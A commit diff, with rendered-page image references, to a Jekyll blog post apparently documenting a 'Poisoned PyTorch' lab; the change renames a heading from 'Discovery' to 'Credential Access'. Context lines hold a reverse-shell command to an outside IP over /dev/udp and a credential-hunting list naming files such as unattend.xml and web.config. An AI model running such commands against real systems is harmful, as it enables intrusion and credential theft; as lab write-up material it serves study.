

Before and after one commit to soreRum/soreRum.github.io, a Jekyll site: the page built from _posts/2026-03-8-Poisoned-PyTorch-Lab.md, in a window 1280 px wide and 900 px high, scrolled down 2415 px. Shown: the top 893 px of the window, without its empty margins (158-1117 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update 2026-03-8-Poisoned-PyTorch-Lab.md

````diff
--- a/_posts/2026-03-8-Poisoned-PyTorch-Lab.md
+++ b/_posts/2026-03-8-Poisoned-PyTorch-Lab.md
@@ -107,7 +107,7 @@ C:\Windows\system32\cmd.exe /C wsl sh -i >& /dev/udp/18.197.226.152/4242
 under the same UNUCORB\michelvic user
 ```
 
-Discovery
+Credential Access
 ---------
 
 credential hunting file hunting: password, cred, config, xml, ini, txt, unattend, sysprep | well known creds leak: unattend.xml, sysgrep.inf, web.config, groups.xml, cred.xml
````
